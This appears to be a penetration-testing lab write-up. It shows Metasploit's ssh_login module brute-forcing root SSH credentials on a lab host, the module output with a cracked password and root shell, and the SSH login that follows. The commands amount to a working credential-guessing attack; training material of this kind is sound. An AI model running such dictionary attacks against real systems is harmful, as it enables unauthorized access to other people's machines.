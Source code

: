 ```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.230.83.3
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```

```bash
[-] 192.230.83.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.230.83.3:22 - Failed: 'root:!root'
[-] 192.230.83.3:22 - Failed: 'root:Cisco'
[-] 192.230.83.3:22 - Failed: 'root:NeXT'
[-] 192.230.83.3:22 - Failed: 'root:QNX'
[-] 192.230.83.3:22 - Failed: 'root:admin'
[+] 192.230.83.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.230.83.2:41621 -> 192.230.83.3:22) at 2023-02-16 14:25:47 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<details><summary>Reveal Flag - root password is: 🚩</summary></details>

```bash
ssh root@192.230.83.3
```

```bash
root@192.230.83.3's password: # enter root password
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
SSH recon dictionary attack lab
```

![ssh - root](3-enumerationassets/image-20230216153349055.png)

> 📌 The message of the day is `SSH recon dictionary attack lab`.

------

